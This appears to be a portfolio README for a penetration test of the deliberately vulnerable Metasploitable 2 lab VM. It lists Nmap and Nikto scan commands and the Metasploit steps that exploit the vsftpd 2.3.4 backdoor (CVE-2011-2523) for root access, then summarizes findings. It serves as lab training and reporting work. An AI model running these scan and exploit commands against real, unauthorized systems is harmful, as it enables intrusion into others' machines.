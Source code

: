 🛡️ Metasploitable 2 – Vulnerability Assessment & Penetration Testing (VAPT)

This project demonstrates a **full penetration testing workflow** on Metasploitable 2, a deliberately vulnerable VM.  
The goal was to simulate a real-world **Vulnerability Assessment and Penetration Test (VAPT)** and produce a consultancy-style report.

---

## 🔹 Project Roadmap! [Roadmap Infographic](assets/roadmap_infographic.png)  

---

## 🔹 Steps Performed

1️⃣ Reconnaissance (Nmap)
- Scanned target IP for open ports and services
```bash
nmap -sV <target-ip> -oN nmap_scan.txt

2️⃣ Vulnerability Scanning

Nmap vulnerability scripts

nmap -sV --script vuln <target-ip> -oN vuln_results.txt


Nikto web scan

nikto -h http://<target-ip> -output nikto_results.txt

3️⃣ Exploitation (Metasploit)

Exploited vsftpd 2.3.4 backdoor (CVE-2011-2523)

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target-ip>
run

Verified root access with:

whoami

4️⃣ Reporting

Documented findings, CVEs, and remediation

Delivered a professional consultancy-style report (PDF)


🔹 Deliverables

📄 [Full Report (PDF)](report/Metasploitable2_Pentest_Report_Final.pdf)

🖼️ [Roadmap Infographic](assets/roadmap_infographic.png)

📸 [Proof Screenshots](screenshots)

🔹 Tools Used

Kali Linux

Nmap

Nikto

Metasploit Framework

🔹 Key Findings

Critical: FTP backdoor (vsftpd 2.3.4 – CVE-2011-2523) → Remote root access

High: Outdated Apache 2.2.8 & PHP 5.2.4

Medium: Missing HTTP security headers

🔹 Author

👤 Gufran Ahmed
🌐 [LinkedIn](https://www.linkedin.com/in/gufran-uh/)
